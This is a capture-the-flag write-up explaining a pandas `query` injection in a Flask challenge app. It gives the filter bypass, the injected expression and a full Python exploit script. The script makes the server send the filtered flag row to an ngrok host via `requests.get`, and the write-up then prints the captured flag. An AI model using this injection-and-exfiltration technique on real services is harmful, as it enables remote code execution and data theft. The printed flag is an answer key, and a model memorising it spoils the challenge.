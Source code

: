 # Rnd For Data Science &mdash; Solution

## Source code analysis

We have two files:

* app.py
* generator_app.py

First, the Flask application is exposed, and the generator app is used to generate the random matrix.
The generator app pushes the flag into the generated matrix, but then the frontend `app.py` will filter out
the `FLAG`.

Filtering is done with the following code in `app.py`:

```python3
# Filter out secrets
first = list(df.columns.values)[1]
df = df.query(f'{first} != "FLAG"')

```
## Attack

Pandas `query` here is vulnerable to injection. The application is a header to compare
with the `"FLAG"` string.

We can inject some code and somehow expose the flag.

Code inside the `query` will use local objects, so it is possible to use the `requests` module inside
the query. We will try to send the flag to our server.

The problem is that if we want to use objects, we will need to use the `@` operator, but this operator
is forbidden: `'\'"!@'`.

We can escape this by using a delimiter called '@'. Delimiter is not forbbiden.
Another fact is that we have a bug here: `df = pd.read_csv(csv)`, where we use `,` delimiter as default.

We will construct our header so that the first header will be `test,` and `,` is here because
injection will be in the second header. We will use the input delimiter as a concatenation char, so for the CSV reading, we will have only two headers, and for the backend, we will have multiple headers separated by the `@`.

Additionally, we can add a custom URL `GET` parameter with the name `delimiter` because we can reuse the `delimiter_const` variable to fetch this `GET` parameter.

So, we will construct the following request:

```
https://tbtl-rnd-for-data-science.chals.io/generate?delimiter=https://e7f0-85-94-74-102.ngrok-free.app?param=
```

And with a `POST` request parameters, we will inject the following command:

```
@requests.get(@request.args.get(@delimiter_const)+@df.tail(1).to_string(header=False))#
```

Here is a request for the attack:

```python3
import requests

data = {'numColumns': '5',
        'columnName0': 'test,',
        'columnName1': 'requests.get(',
        'columnName2': 'request.args.get(',
        'columnName3': 'delimiter_const)+',
        'columnName4': 'df.tail(1).to_string(header=False))#',
        'delimiter': '@'
        }


r = requests.post("https://tbtl-rnd-for-data-science.chals.io/generate?delimiter=https://e7f0-85-94-74-102.ngrok-free.app?param=", data=data)

print(r.text)
```

We got the flag: `TBTL{d4T4_5c13nc3_15_n07_f0r_r0ck135}`
